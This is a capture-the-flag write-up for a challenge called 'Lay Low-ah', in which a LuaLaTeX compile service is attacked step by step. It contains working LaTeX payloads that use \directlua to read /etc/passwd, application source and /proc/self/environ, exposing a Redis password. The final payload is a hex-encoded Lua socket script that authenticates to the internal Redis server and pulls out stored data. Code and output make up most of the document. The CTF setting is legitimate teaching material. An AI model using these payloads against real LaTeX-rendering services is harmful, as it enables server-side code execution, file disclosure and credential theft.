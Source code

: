 # Lay Low-ah

## Writeup

1. First of all, we try to load files using input and include, but it doesn't seem to work.

2. From the description we understand that it's one of the latex compilers for linux, and from the name of the challenge, we can guess that it's `LuaLaTeX`.

3. Lualatex offers a command to execute lua code, which is `\directlua`, and we're going to use it in order to exfiltrate all the infos that we need.

4. We'll try to read files with it:

    ```latex
    \documentclass{book}
    \begin{document}
    \directlua{

        local file = io.open("/etc/passwd", "r")
        local text = file:read("*all")
        file:close()
        tex.print(-2, text)

    }
    adscrf
    \end{document}
    ```

    We can see that it works!

5. Since it's a flask app, we can guess `app.py` file, we'll try to read it:

    ```python
    #!/usr/bin/python3

    from flask import Flask, request, render_template, redirect, url_for, make_response
    from utils import PDF, remove_pdfs, make_cache_key
    from flask_caching import Cache, CachedResponse

    app = Flask(__name__)
    app.config.from_object('config.BaseConfig')  
    cache = Cache(app)


    @app.route("/", methods=["GET", "HEAD"])
    def root():
        return redirect(url_for("compile"))


    @app.route("/compile", methods=["GET", "POST", "HEAD"])
    @cache.cached(timeout=30, key_prefix=make_cache_key)
    def compile():
        pdf = None

        if request.method == "GET":
            return render_template("./compile.html", pdf=pdf)
        elif request.method == "POST":
            latex_text = request.form.get("latex_text")

            try:
                pdf = PDF(latex_text).generate_pdf()
                if pdf is not None:
                    result = "Compiled successfully!"
                    return CachedResponse(
                        response=make_response(
                            render_template(
                                "./compile.html", result=result, pdf=pdf
                            )
                        )
                        ,timeout=50,
                    )
                else:
                    raise Exception("")
            except Exception as e:
                print(e)
                result = "something is going wrong"
                pdf = None
                return render_template("./compile.html", result=result, pdf=pdf)
        else:
            return render_template("./compile.html")
    ```

6. We notice that it's using flask_caching, hence the optimization in the rendering as it's mentioned in the description. After some documentation, we understand that the config of caching it's imported from `config.py` here:

    ```python
    app.config.from_object('config.BaseConfig')
    ```

7. We dump the `config.py`:

    ```python
    import os

    URL = "http://localhost:8000"


    class BaseConfig(object):
        CACHE_TYPE = os.environ['CACHE_TYPE']
        CACHE_REDIS_HOST = os.environ['CACHE_REDIS_HOST']
        CACHE_REDIS_PORT = os.environ['CACHE_REDIS_PORT']
        CACHE_REDIS_DB = os.environ['CACHE_REDIS_DB']
        CACHE_REDIS_URL = os.environ['CACHE_REDIS_URL']
        CACHE_DEFAULT_TIMEOUT = os.environ['CACHE_DEFAULT_TIMEOUT']
        # os.system('lua /ctf/insert_flag.lua')
        # os.system('rm /ctf/insert_flag.lua')
    ```

8. We see that it's using Redis for caching, and from the 2 last lines, we can deduct that probably the flag is pushed to redis and it's not anymore on the server.

9. We can retrieve the environment variables from `/proc/self/environ` file:

    ```env
    HOSTNAME=5010384e97f6
    CACHE_REDIS_URL=redis://:JtmvalTXG91siKBIrCxmsDfXNfkl8Gck@cache:6379/0
    PWD=/ctf
    CACHE_TYPE=redis
    HOME=/root
    LANG=CUTF-8T
    EXLIVE_INSTALL_NO_CONTEXT_CACHE=1
    CACHE_REDIS_HOST=cache
    TERM=xterm
    CACHE_REDIS_DB=0
    SHLVL=1
    CACHE_REDIS_PORT=6379
    FLASK_DEBUG=production
    LC_ALL=C.UTF-8
    CACHE_DEFAULT_TIMEOUT=500
    PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
    NOPERLDOC=1_=/bin/cat
    ```

10. Now, we have redis credentials, we have to be able to communicate with redis server using Lua.

11. Trying to use redis packages won't help because they are not installed. But if we check `socket` one, we find that it works.  

    Redis doesn't support http requests, even socket module doesn't support gopher protocol, so we are obliged to communicate with redis by using tcp socket and send the exact syntax that redis uses.  
    After documentation, the syntax is:

    ```lua
    "*2\r\n$4\r\nGET\r\n$1\r\n*\r\n"
    ```

    This line will get all entries.  
    We will start to craft our payload.

12. We notice that Latex has a problem with all these special chars, so we will use Hexadecimal instead, decode it then send it.

13. Without forgeting the authentication part, and after printing all the keys, we find that flag is `FLAG`.

    So the final payload is:  

    ```lua
    "*2\r\n$4\r\nAUTH\r\n$32\r\nJtmvalTXG91siKBIrCxmsDfXNfkl8Gck\r\n*2\r\n$3\r\nGET\r\n$4\r\nFLAG\r\n"
    ```

    And here's the latex document to send:

    ```latex
    \documentclass{book}
    \begin{document}
    \directlua{
        function fromHex(str)
            return (str:gsub('..', function (cc)
                return string.char(tonumber(cc, 16))
            end))
        end
        str = "2a320d0a24340d0a415554480d0a2433320d0a4a746d76616c545847393173694b42497243786d734466584e666b6c3847636b0d0a2a320d0a24330d0a4745540d0a24340d0a464c41470d0a"
        local res = fromHex(str)
        local host, port = "cache", 6379
        local socket = require("socket")
        local tcp = assert(socket.tcp())
        tcp:connect(host, port);
        tcp:send(res);
        tcp:settimeout(2)
        for i=1,3 do
            local s, status, partial = tcp:receive()
            tex.print(-2,s,partial)
        end
        tcp:close()
    }
    \end{document}
    ```

14. The flag is `CyberErudites{r3d1s_0bv105l7y_m34n5_55RF}`.
